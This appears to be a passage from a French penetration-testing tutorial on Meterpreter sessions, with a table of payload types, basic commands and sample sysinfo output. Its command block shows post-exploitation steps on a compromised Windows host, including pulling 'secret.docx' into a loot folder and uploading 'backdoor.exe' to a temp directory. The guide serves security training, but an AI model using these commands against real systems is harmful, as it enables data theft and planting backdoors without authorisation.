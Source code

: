 ## Gestion avancée des sessions Meterpreter

### Présentation de Meterpreter

Meterpreter est un payload avancé qui s'exécute entièrement en mémoire et offre de nombreuses fonctionnalités post-exploitation sans nécessiter l'installation d'outils supplémentaires sur la cible.

Caractéristiques principales :
- Exécution en mémoire (sans écriture sur le disque)
- Communication chiffrée
- Extensible via des scripts et des extensions
- Fonctionne sur diverses plateformes (Windows, Linux, Android, etc.)

### Types de sessions Meterpreter

| Type | Plateforme | Caractéristiques |
|------|------------|------------------|
| windows/meterpreter | Windows | Version classique pour Windows |
| windows/x64/meterpreter | Windows 64-bit | Optimisé pour systèmes 64 bits |
| python/meterpreter | Systèmes avec Python | Portable, moins de fonctionnalités |
| java/meterpreter | Systèmes avec Java | Portable, moins de fonctionnalités |
| php/meterpreter | Serveurs web PHP | Limité aux fonctionnalités web |
| android/meterpreter | Android | Fonctionnalités spécifiques aux mobiles |

### Commandes de base Meterpreter

```
# Informations sur le système
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getpid

# Navigation dans le système de fichiers
meterpreter > pwd
meterpreter > ls
meterpreter > cd C:\\Users\\Administrator\\Desktop

# Manipulation de fichiers
meterpreter > cat important.txt
meterpreter > download secret.docx /home/kali/loot/
meterpreter > upload backdoor.exe C:\\Windows\\Temp\\
```

Exemple de sortie de `sysinfo` :
```
Computer        : WIN-SRV2019
OS              : Windows 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
